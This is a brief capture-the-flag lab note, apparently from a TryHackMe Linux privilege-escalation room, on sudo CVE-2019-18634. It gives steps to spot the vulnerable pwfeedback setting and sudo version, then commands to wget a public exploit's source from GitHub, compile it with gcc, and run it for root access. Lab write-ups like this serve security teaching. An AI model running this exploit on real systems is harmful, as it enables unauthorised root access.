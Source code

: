 Linux PrivEsc Lab - [https://tryhackme.com/room/linuxprivescarena](https://tryhackme.com/room/linuxprivescarena)

Explanation & Exploit: https://github.com/saleemrashid/sudo-cve-2019-18634

---

Identify vulnerability:
1) Try to execute sudo: check for asterisks
2) Check sudo version: `sudo -V`

Download exploit:
```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

Compile exploit:
```bash
gcc -o sudo_exploit exploit.c
```

Upload and run exploit.
